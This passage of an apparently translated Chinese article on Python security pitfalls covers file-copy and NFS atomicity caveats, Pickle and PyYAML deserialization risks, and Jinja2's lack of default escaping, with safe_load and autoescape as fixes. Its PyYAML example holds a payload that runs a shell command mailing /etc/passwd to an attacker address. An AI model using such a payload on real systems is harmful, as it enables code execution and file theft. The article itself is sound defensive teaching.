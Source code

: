 进一步的并发症可能会在 `shutil.copy` 不能够拷贝所有的文件元数据的时候出现，可能使得创建的文件不受保护。

不完全是针对Python，当修改非主流类型的文件系统，特别是远程文件系统上的文件时必须小心。数据一致性保证倾向于在文件访问序列方面不同。作为一个例子，NFSv2并不遵守 `open` 系统调用的  `O_EXCL` 标志，而它是原子文件创建的关键。

## 不安全的反序列化

存在许多数据序列化计算，其中， `Pickle` 是专为反序列化/序列化Python对象而设计的。其目的在于将活动的Python对象转存储为用以存储或传输的字节流，然后将它们重新构造成(可能是)另一个Python实例。如果序列化数据被篡改，那么重新构造的过程则是潜在的风险。Pickle的不安全性是公认的，并且在Python文档中有明确指出。

作为一个流行的配置文件格式， YAML 不一定被认为是一个能够诱使反序列化器执行任意代码的强大的序列化协议。让它甚至更危险的是，事实上 Python 的 YAML 默认实现 —— `PyYAML` 让反序列化看起来非常无辜：

```py
>>> import yaml
>>>
>>> dangerous_input = """
   ... some_option: !!python/object/apply:subprocess.call
   ...   args: [cat /etc/passwd | mail attacker@blackhat.com]
   ...   kwds: {shell: true}
   ... """
>>> yaml.load(dangerous_input)
{'some_option': 0}
```

...而 `/etc/passwd` 已经被窃取了。一个建议的解决方法是总是使用 `yaml.safe_load` 来处理那些你不信任的YAML序列化。尽管如此，目前的PyYAML默认感觉有些驱使人考虑其他倾向于为相似的目的使用 `dump`/`load` 函数名（但是以一种安全的方式）的序列化库。

## 模板引擎

Web应用作者很早之前就采用了Python。在十年的过程中，开发了相当多的Web框架。它们许多都利用了 `模板引擎` 来从，嗯，模板和运行时变量生成动态web内容。除了web应用，模板引擎还渗入到完全不同的软件中，例如 Ansible IT 自动化工具。

当内容被静态模板和运行时变量渲染时，会有用户控制的代码通过运行时变量注入的风险。针对web应用的成功发起攻击可能导致 `跨站脚本` 漏洞。服务器端模板诸如的一般缓解方法是插值到最终文档之前清理模板变量的内容。清理可以通过拒绝、剥离或者转义那些特定于任何给定的标记或者其他特定领域的语言字符来完成。

不幸的是，这里，模板引擎似乎并没朝着更严格的安全靠近 —— 看看最流行的实现，它们都没有默认使用转义机制，而是依赖开发者对风险的意识。

例如，`Jinja2` ，这一可能是最流行的工具之一，渲染一切：

```py
>>> from jinja2 import Environment
>>>
>>> template = Environment().from_string('')
>>> template.render(variable='<script>do_evil()</script>')
'<script>do_evil()</script>'
```

...除非许多可能的转义机制之一是显式地反转其默认设置：

```py
>>> from jinja2 import Environment
>>>
>>> template = Environment(autoescape=True).from_string('')
>>> template.render(variable='<script>do_evil()</script>')
'&lt;script&gt;do_evil()&lt;/script&gt;'
```

另外一个复杂之处在于，在某些使用情况下，程序员不想清除所有的模板变量，故意留下一些来保持潜在危险的内容不变。模板引擎通过引入"过滤器"来让程序员明确清理各个变量的内容，以满足这种需要。 Jinja 2还提供触发每个模板基础中默认转义的可能性。

如果开发者选择只转义标记语言标签的子集，让其他合法地溜进最后的文档中，那么它会变得更加脆弱和复杂。

## 总结

本文并不是要具体列出 Python 生态中所有潜在的陷阱和缺点。我们的目标是提高对那些一旦开始用 Python 写代码就有可能出现的安全风险的警觉性，希望让编程更加愉快，让我们的生活更加安全。
